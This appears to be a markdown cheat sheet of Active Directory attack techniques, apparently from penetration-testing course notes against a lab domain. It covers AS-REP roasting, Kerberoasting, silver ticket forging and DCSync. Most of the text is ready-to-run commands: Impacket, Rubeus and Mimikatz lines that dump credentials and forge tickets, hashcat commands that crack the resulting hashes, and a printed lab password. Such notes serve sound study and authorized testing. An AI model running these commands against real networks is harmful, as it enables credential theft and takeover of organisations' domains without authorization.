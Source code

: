 ## AS-REP Roasting
AD user account option Do not require Kerberos preauthentication is enabled
To identify users with the enabled AD user account option Do not require Kerberos preauthentication, we can use **PowerView's Get-DomainUser function with the option -PreauthNotRequired on Windows**. On Kali, we can use impacket-GetNPUsers without the -request and -outputfile options.
### Impacket
#### Require username:password
```
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
```
### Crack 
Let's enter the mode 18200, the file containing the AS-REP hash, rockyou.txt as wordlist, best64.rule as rule file, and --force to perform the cracking on our Kali VM.
```
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
### Rubeus
```
.\Rubeus.exe asreproast /nowrap
```

## Kerberoasting
When requesting the service ticket from the domain controller, no checks are performed to confirm whether the user has any permissions to access the service hosted by the SPN.

These checks are performed as a second step only when connecting to the service itself. This means that if we know the SPN we want to target, we can request a service ticket for it from the domain controller.

### Rubeus
```
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

### Crack
```
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

### Impacket
#### Require username:password
```
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```


## Silver Tickets
First, let's confirm that our current user has no access to the resource of the HTTP SPN mapped to iis_service. To do so, we'll use iwr4 and enter -UseDefaultCredentials so that the credentials of the current user are used to send the web request.
```
iwr -UseDefaultCredentials http://web04
```
Let's start PowerShell as Administrator and launch Mimikatz. As we already learned, we can use privilege::debug and sekurlsa::logonpasswords to extract cached AD credentials.
```mimikatz
privilege::debug
sekurlsa::logonpasswords
```
searching for SID
Note : ** SID
```
whoami /user
example :
corp\jeff **S-1-5-21-1987370270-658905905-1781884369**-1105
```
We need to provide the domain SID (***/sid***:), domain name (***/domain***:), and the target where the SPN runs (***/target***:). We also need to include the SPN protocol (***/service***:), NTLM hash of the SPN (***/rc4***:), and the ***/ptt*** option, which allows us to inject the forged ticket into the memory of the machine we execute the command on.
```mimikatz
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
```
This means we should have the ticket ready to use in memory. We can confirm this with ***klist***.
```PS
klist
iwr -UseDefaultCredentials http://web04
```

## Domain Controller Sync
The dcsync attack is a powerful technique to obtain any domain user credentials. As a bonus, we can use it from both Windows and Linux. By impersonating a domain controller, we can use replication to obtain user credentials from a domain controller. However, to perform this attack, **we need a user that is a member of Domain Admins, Enterprise Admins, or Administrators,** because there are certain rights required to start the replication. Alternatively, we can leverage a user with these rights assigned, though we're far less likely to encounter one of these in a real penetration test.

let's open a PowerShell window and launch Mimikatz in C:\Tools. For Mimikatz to perform this attack, we can use the lsadump::dcsync module and provide the domain username for which we want to obtain credentials as an argument for /user:. For the purposes of this example, we'll target the domain user dave.
```mimikatz
lsadump::dcsync /user:corp\dave

lsadump::dcsync /user:corp\Administrator
```

### Crack 
```
hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

For now, let's perform the dcsync attack from Linux as well. We'll use impacket-secretsdump to acheive this. To launch it, we'll enter the target username dave as an argument for -just-dc-user and provide the credentials of a user with the required rights, as well as the IP of the domain controller in the format domain/user:password@ip.

### Impacket 
```
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```

